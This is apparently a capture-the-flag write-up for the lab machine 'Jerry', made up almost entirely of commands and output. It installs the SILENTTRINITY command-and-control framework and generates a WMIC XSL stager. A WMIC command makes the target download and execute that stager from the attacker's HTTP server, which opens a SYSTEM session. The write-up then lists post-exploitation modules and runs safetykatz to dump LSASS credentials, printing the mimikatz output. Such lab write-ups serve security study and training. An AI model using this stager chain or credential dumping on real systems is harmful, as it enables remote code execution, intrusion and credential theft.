



- [`SILENTTRINITY`](https://github.com/byt3bl33d3r/SILENTTRINITY)

```sh
apt install python3.7-dev
apt install python3-pip
```

```sh
root@kali:~/jerry# cd /opt/
root@kali:/opt# ls
LinEnum  linux-exploit-suggester  SecLists  SILENTTRINITY  Teeth
root@kali:/opt# cd SILENTTRINITY/
root@kali:/opt/SILENTTRINITY# ls
CONTRIBUTING.md  Pipfile  README.md  Server  SILENTTRINITY  SILENTTRINITY_DLL  SILENTTRINITY.sln
root@kali:/opt/SILENTTRINITY# cd Server/
root@kali:/opt/SILENTTRINITY/Server# ls -l
total 56
drwxr-xr-x 2 root root  4096 Nov 18 18:36 core
drwxr-xr-x 2 root root  4096 Nov 18 18:36 data
drwxr-xr-x 2 root root  4096 Nov 18 18:36 listeners
drwxr-xr-x 3 root root  4096 Nov 18 18:36 modules
-rw-r--r-- 1 root root   260 Nov 18 18:36 Pipfile
-rw-r--r-- 1 root root 15805 Nov 18 18:36 Pipfile.lock
-rw-r--r-- 1 root root   387 Nov 18 18:36 requirements.txt
drwxr-xr-x 3 root root  4096 Nov 18 18:36 stagers
-rwxr-xr-x 1 root root  4213 Nov 18 18:36 st.py
-rwxr-xr-x 1 root root  3067 Nov 18 18:36 stvenom.py
root@kali:/opt/SILENTTRINITY/Server# python3.7 -m pip install -r requirements.txt
Collecting aiofiles==0.4.0 (from -r requirements.txt (line 1))
  Downloading https://files.pythonhosted.org/packages/cf/f2/a67a23bc0bb61d88f82aa7fb84a2fb5f278becfbdc038c5cbb36c31feaf1/aiofiles-0.4.0-py3-none-any.whl
Requirement already satisfied: blinker==1.4 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 2))
Collecting click==7.0 (from -r requirements.txt (line 3))
  Downloading https://files.pythonhosted.org/packages/fa/37/45185cb5abbc30d7257104c434fe0b07e5a195a6847506c074527aa599ec/Click-7.0-py2.py3-none-any.whl (81kB)
    100% |████████████████████████████████| 81kB 1.8MB/s
Collecting docopt==0.6.2 (from -r requirements.txt (line 4))
  Downloading https://files.pythonhosted.org/packages/a2/55/8f8cab2afd404cf578136ef2cc5dfb50baa1761b68c9da1fb1e4eed343c9/docopt-0.6.2.tar.gz
Requirement already satisfied: h11==0.8.1 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 5))
Requirement already satisfied: h2==3.0.1 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 6))
Requirement already satisfied: hpack==3.0.0 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 7))
Collecting hypercorn==0.3.1 (from -r requirements.txt (line 8))
  Downloading https://files.pythonhosted.org/packages/3f/71/54264c4aad744f7393765e14fe212cb841b12cdc32f6e7b99d7a8541ce6f/Hypercorn-0.3.1-py2.py3-none-any.whl
Requirement already satisfied: hyperframe==5.1.0 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 9))
Collecting itsdangerous==0.24 (from -r requirements.txt (line 10))
  Downloading https://files.pythonhosted.org/packages/dc/b4/a60bcdba945c00f6d608d8975131ab3f25b22f2bcfe1dab221165194b2d4/itsdangerous-0.24.tar.gz (46kB)
    100% |████████████████████████████████| 51kB 8.1MB/s
Requirement already satisfied: jinja2==2.10 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 11))
Requirement already satisfied: markupsafe==1.0 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 12))
Collecting multidict==4.4.2 (from -r requirements.txt (line 13))
  Downloading https://files.pythonhosted.org/packages/a7/57/cefa7a7f30b03006506dd0f44988613d40efbc987d82f34dfe9027800347/multidict-4.4.2-cp37-cp37m-manylinux1_x86_64.whl (386kB)
    100% |████████████████████████████████| 389kB 2.2MB/s
Collecting netifaces==0.10.7 (from -r requirements.txt (line 14))
  Downloading https://files.pythonhosted.org/packages/81/39/4e9a026265ba944ddf1fea176dbb29e0fe50c43717ba4fcf3646d099fe38/netifaces-0.10.7.tar.gz
Collecting prompt-toolkit==2.0.5 (from -r requirements.txt (line 15))
  Downloading https://files.pythonhosted.org/packages/e5/c5/f1ee6698bdcf615f171a77e81ca70293b16a6d82285f1760b388b4348263/prompt_toolkit-2.0.5-py3-none-any.whl (334kB)
    100% |████████████████████████████████| 337kB 2.6MB/s
Collecting pytoml==0.1.19 (from -r requirements.txt (line 16))
  Downloading https://files.pythonhosted.org/packages/a9/81/9235bc836eee11fc1920b3c5c9f02280ac013b9e90df314415861efbc196/pytoml-0.1.19.tar.gz
Collecting quart==0.6.7 (from -r requirements.txt (line 17))
  Downloading https://files.pythonhosted.org/packages/3f/93/15da4fa1651c85428a607024dfbe2b002c5cb5466ae1a7272650d542fd53/Quart-0.6.7-py2.py3-none-any.whl (97kB)
    100% |████████████████████████████████| 102kB 3.6MB/s
Requirement already satisfied: six==1.11.0 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 18))
Collecting sortedcontainers==2.0.5 (from -r requirements.txt (line 19))
  Downloading https://files.pythonhosted.org/packages/be/e3/a065de5fdd5849450a8a16a52a96c8db5f498f245e7eda06cc6725d04b80/sortedcontainers-2.0.5-py2.py3-none-any.whl
Requirement already satisfied: termcolor==1.1.0 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 20))
Collecting terminaltables==3.1.0 (from -r requirements.txt (line 21))
  Downloading https://files.pythonhosted.org/packages/9b/c4/4a21174f32f8a7e1104798c445dacdc1d4df86f2f26722767034e4de4bff/terminaltables-3.1.0.tar.gz
Collecting typing-extensions==3.6.5 (from -r requirements.txt (line 22))
  Downloading https://files.pythonhosted.org/packages/15/f1/ef4e69d77cd850af1cb7d6de62fc8a0e92eb6fe7b37e3dc563b41378b567/typing_extensions-3.6.5-py3-none-any.whl
Collecting wcwidth==0.1.7 (from -r requirements.txt (line 23))
  Downloading https://files.pythonhosted.org/packages/7e/9f/526a6947247599b084ee5232e4f9190a38f398d7300d866af3ab571a5bfe/wcwidth-0.1.7-py2.py3-none-any.whl
Collecting wsproto==0.12.0 (from -r requirements.txt (line 24))
  Downloading https://files.pythonhosted.org/packages/6b/f8/300c85ce7473a6e81c6aef294b6bb55375720e08974cdec915793eafaf58/wsproto-0.12.0-py2.py3-none-any.whl
Building wheels for collected packages: docopt, itsdangerous, netifaces, pytoml, terminaltables
  Running setup.py bdist_wheel for docopt ... done
  Stored in directory: /root/.cache/pip/wheels/9b/04/dd/7daf4150b6d9b12949298737de9431a324d4b797ffd63f526e
  Running setup.py bdist_wheel for itsdangerous ... done
  Stored in directory: /root/.cache/pip/wheels/2c/4a/61/5599631c1554768c6290b08c02c72d7317910374ca602ff1e5
  Running setup.py bdist_wheel for netifaces ... done
  Stored in directory: /root/.cache/pip/wheels/bb/f7/d1/028a9f26b5a235f8bfdac48d7071c45f57d32959a2ebd40e94
  Running setup.py bdist_wheel for pytoml ... done
  Stored in directory: /root/.cache/pip/wheels/a9/6b/37/19528799dda281a12714ab5687c7d331bc7fb776ea04af9567
  Running setup.py bdist_wheel for terminaltables ... done
  Stored in directory: /root/.cache/pip/wheels/30/6b/50/6c75775b681fb36cdfac7f19799888ef9d8813aff9e379663e
Successfully built docopt itsdangerous netifaces pytoml terminaltables
Installing collected packages: aiofiles, click, docopt, wsproto, pytoml, typing-extensions, hypercorn, itsdangerous, multidict, netifaces, wcwidth, prompt-toolkit, sortedcontainers, quart, terminaltables
  Found existing installation: click 7.0.dev0
    Not uninstalling click at /usr/lib/python3/dist-packages, outside environment /usr
  Found existing installation: wsproto 0.11.0
    Not uninstalling wsproto at /usr/lib/python3/dist-packages, outside environment /usr
  Found existing installation: sortedcontainers 2.0.4
    Not uninstalling sortedcontainers at /usr/lib/python3/dist-packages, outside environment /usr
Successfully installed aiofiles-0.4.0 click-7.0 docopt-0.6.2 hypercorn-0.3.1 itsdangerous-0.24 multidict-4.4.2 netifaces-0.10.7 prompt-toolkit-2.0.5 pytoml-0.1.19 quart-0.6.7 sortedcontainers-2.0.5 terminaltables-3.1.0 typing-extensions-3.6.5 wcwidth-0.1.7 wsproto-0.12.0
root@kali:/opt/SILENTTRINITY/Server#
```

```sh
root@kali:~/jerry# vi /opt/SILENTTRINITY/Server/listeners/http.py
```

```
ssl_context.set_ciphers('ECDHE+AESGCM:ECDH+AES256')
```



```sh
root@kali:/opt/SILENTTRINITY/Server# python st.py
ST ≫ listeners
ST (listeners) ≫ list
+Available----------------+
| Name  | Description     |
+-------+-----------------+
| http  | HTTP listener   |
+-------+-----------------+
| http2 | HTTP/2 listener |
+-------+-----------------+
+Running------+-----+
| Type | Name | URL |
+------+------+-----+
ST (listeners) ≫ use http
ST (listeners)(http) ≫ list
+Available----------------+
| Name  | Description     |
+-------+-----------------+
| http  | HTTP listener   |
+-------+-----------------+
| http2 | HTTP/2 listener |
+-------+-----------------+
+Running------+-----+
| Type | Name | URL |
+------+------+-----+
ST (listeners)(http) ≫ options
+-------------+----------+---------------+-----------------------------------+
| Option Name | Required | Value         | Description                       |
+-------------+----------+---------------+-----------------------------------+
| Name        | True     | http          | Name for the listener.            |
+-------------+----------+---------------+-----------------------------------+
| BindIP      | True     | 10.0.0.82     | The IPv4/IPv6 address to bind to. |
+-------------+----------+---------------+-----------------------------------+
| Port        | True     | 443           | Port for the listener.            |
+-------------+----------+---------------+-----------------------------------+
| Cert        | False    | data/cert.pem | SSL Certificate file              |
+-------------+----------+---------------+-----------------------------------+
| Key         | False    | data/key.pem  | SSL Key file                      |
+-------------+----------+---------------+-----------------------------------+
ST (listeners)(http) ≫ set BindIP 10.10.14.18
ST (listeners)(http) ≫ options
+-------------+----------+---------------+-----------------------------------+
| Option Name | Required | Value         | Description                       |
+-------------+----------+---------------+-----------------------------------+
| Name        | True     | http          | Name for the listener.            |
+-------------+----------+---------------+-----------------------------------+
| BindIP      | True     | 10.10.14.18   | The IPv4/IPv6 address to bind to. |
+-------------+----------+---------------+-----------------------------------+
| Port        | True     | 443           | Port for the listener.            |
+-------------+----------+---------------+-----------------------------------+
| Cert        | False    | data/cert.pem | SSL Certificate file              |
+-------------+----------+---------------+-----------------------------------+
| Key         | False    | data/key.pem  | SSL Key file                      |
+-------------+----------+---------------+-----------------------------------+
ST (listeners)(http) ≫ start
[+] Listener 'http' started successfully!
ST (listeners)(http) ≫ Running on https://10.10.14.18:443 (CTRL + C to quit)
ST (listeners)(http) ≫
ST (listeners)(http) ≫ stagers
ST (stagers) ≫ list
+Available+--------------------------------------+
| Name    | Description                          |
+---------+--------------------------------------+
| wmic    | Stage via wmic XSL execution         |
+---------+--------------------------------------+
| msbuild | Stage via MSBuild XML inline C# task |
+---------+--------------------------------------+
ST (stagers) ≫ use wmic
ST (stagers)(wmic) ≫ generate http
[+] Generated stager to wmic.xsl
[*] Launch with:
	C:\Windows\System32\wbem\WMIC.exe os get /format:"https://myurl/wmic.xsl"
	C:\Windows\System32\wbem\WMIC.exe os get /format:"wmic.xsl"
ST (stagers)(wmic) ≫
```

```sh
root@kali:~/jerry# cp /opt/SILENTTRINITY/Server/wmic.xsl .
root@kali:~/jerry# cp wmic.xsl cmd.jsp/
root@kali:~/jerry# cd cmd.jsp/
root@kali:~/jerry/cmd.jsp# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.95 - - [18/Nov/2018 19:19:47] "GET /wmic.xsl HTTP/1.1" 200 -
```

```
C:\Windows\System32\wbem\WMIC.exe os get /format:"http://10.10.14.18/wmic.xsl"
```

```sh
ST (stagers)(wmic) ≫ generate http
[+] Generated stager to wmic.xsl
[*] Launch with:
	C:\Windows\System32\wbem\WMIC.exe os get /format:"https://myurl/wmic.xsl"
	C:\Windows\System32\wbem\WMIC.exe os get /format:"wmic.xsl"
[*] Sending stage (1570326 bytes) ->  10.10.10.95 ...
[+] New session 37ca120d-8186-49ff-bb69-09680f40e9c8 connected! (10.10.10.95)
ST (stagers)(wmic) ≫ sessions
ST (sessions) ≫ list
+--------------------------------------+-------------+-------------+----------------+
| GUID                                 | User        | Address     | Last Checkin   |
+--------------------------------------+-------------+-------------+----------------+
| 37ca120d-8186-49ff-bb69-09680f40e9c8 | *SYSTEM@HTB | 10.10.10.95 | h 00 m 00 s 04 |
+--------------------------------------+-------------+-------------+----------------+
ST (sessions) ≫
ST (sessions) ≫ modules
ST (modules) ≫ list
+Modules------------+---------------------------------------------------------------------------------------------------------+
| Name              | Description                                                                                             |
+-------------------+---------------------------------------------------------------------------------------------------------+
| shell             | Runs a shell command                                                                                    |
+-------------------+---------------------------------------------------------------------------------------------------------+
| github_exfill     | Backs up files to a github repo                                                                         |
+-------------------+---------------------------------------------------------------------------------------------------------+
| mimikatz          | Loads Mimikatz in memory and executes the specified command                                             |
+-------------------+---------------------------------------------------------------------------------------------------------+
| execute-assembly  | Execute a .NET assembly in memory                                                                       |
+-------------------+---------------------------------------------------------------------------------------------------------+
| excelshellinject  | Executes arbitrary shellcode using Excel COM objects                                                    |
+-------------------+---------------------------------------------------------------------------------------------------------+
| uploader          | Upload a file to a destination path.                                                                    |
+-------------------+---------------------------------------------------------------------------------------------------------+
| powershell        | Execute arbitrary PowerShell in an un-managed runspace                                                  |
+-------------------+---------------------------------------------------------------------------------------------------------+
| safetykatz        | Creates a minidump of LSASS via Win32 API Calls, loads Mimikatz in memory and parses the dump for creds |
+-------------------+---------------------------------------------------------------------------------------------------------+
| systeminfo        | Enumerates basic system information.                                                                    |
+-------------------+---------------------------------------------------------------------------------------------------------+
| msilshellexec     | Executes shellcode by using specially crafted MSIL opcodes to overwrite a JITed dummy method.           |
|                   | C# code that injects shellcode is dynamically compiled through the pyDLR                                |
+-------------------+---------------------------------------------------------------------------------------------------------+
| internalmonologue | Executes the Internal Monologue attack.                                                                 |
|                   | If admin, this will give you the Net-NTLMv1 hashes of all logged on users                               |
+-------------------+---------------------------------------------------------------------------------------------------------+
| msgbox            | Pop a message box                                                                                       |
+-------------------+---------------------------------------------------------------------------------------------------------+
| ipconfig          | Enumerates network interfaces.                                                                          |
+-------------------+---------------------------------------------------------------------------------------------------------+
ST (modules) ≫
ST (modules) ≫ use safetykatz
ST (modules)(safetykatz) ≫ options
+-------------+----------+------------------------------+--------------------------+
| Option Name | Required | Value                        | Description              |
+-------------+----------+------------------------------+--------------------------+
| Dumpfile    | False    | C:\\WINDOWS\\Temp\\debug.bin | The Path of the dumpfile |
+-------------+----------+------------------------------+--------------------------+
ST (modules)(safetykatz) ≫
ST (modules)(safetykatz) ≫ run all
[+] 37ca120d-8186-49ff-bb69-09680f40e9c8 returned job result (id: ghIeQCmc)
[+] Running in high integrity process
[*] In 64 bit process

  .#####.   mimikatz 2.1.1 (x64) built on May  9 2018 15:35:27
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::minidump C:\WINDOWS\Temp\debug.bin
Switch to MINIDUMP : 'C:\WINDOWS\Temp\debug.bin'

mimikatz(powershell) # sekurlsa::logonpasswords
Opening : 'C:\WINDOWS\Temp\debug.bin' file for minidump...

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : JERRY$
Domain            : HTB
Logon Server      : (null)
Logon Time        : 11/12/2018 3:50:22 PM
SID               : S-1-5-20
	msv :
	tspkg :
	wdigest :
	 * Username : JERRY$
	 * Domain   : HTB
	 * Password : (null)
	kerberos :
	 * Username : jerry$
	 * Domain   : HTB
	 * Password : (null)
	ssp :
	credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 11/12/2018 3:50:23 PM
SID               : S-1-5-19
	msv :
	tspkg :
	wdigest :
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :
	credman :

Authentication Id : 0 ; 64397 (00000000:0000fb8d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 11/12/2018 3:50:23 PM
SID               : S-1-5-90-1
	msv :
	tspkg :
	wdigest :
	 * Username : JERRY$
	 * Domain   : HTB
	 * Password : (null)
	kerberos :
	ssp :
	credman :

Authentication Id : 0 ; 64327 (00000000:0000fb47)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 11/12/2018 3:50:23 PM
SID               : S-1-5-90-1
	msv :
	tspkg :
	wdigest :
	 * Username : JERRY$
	 * Domain   : HTB
	 * Password : (null)
	kerberos :
	ssp :
	credman :

Authentication Id : 0 ; 36787 (00000000:00008fb3)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 11/12/2018 3:50:22 PM
SID               :
	msv :
	tspkg :
	wdigest :
	kerberos :
	ssp :
	credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : JERRY$
Domain            : HTB
Logon Server      : (null)
Logon Time        : 11/12/2018 3:50:22 PM
SID               : S-1-5-18
	msv :
	tspkg :
	wdigest :
	 * Username : JERRY$
	 * Domain   : HTB
	 * Password : (null)
	kerberos :
	 * Username : jerry$
	 * Domain   : HTB
	 * Password : (null)
	ssp :
	credman :

mimikatz(powershell) # sekurlsa::ekeys

[*] Remember to delete dump file at C:\WINDOWS\Temp\debug.bin

ST (modules)(safetykatz) ≫
```

###### References

- [SecurityRiskAdvisors/cmd.jsp](https://github.com/SecurityRiskAdvisors/cmd.jsp)
- [A SMALLER, BETTER JSP WEB SHELL](https://securityriskadvisors.com/blog/a-smaller-better-jsp-web-shell/)
- [byt3bl33d3r/SILENTTRINITY](https://github.com/byt3bl33d3r/SILENTTRINITY)
- [IronPython omfg Marcello Salvati](https://www.youtube.com/watch?v=NaFiAx737qg)
- [GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
- [rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)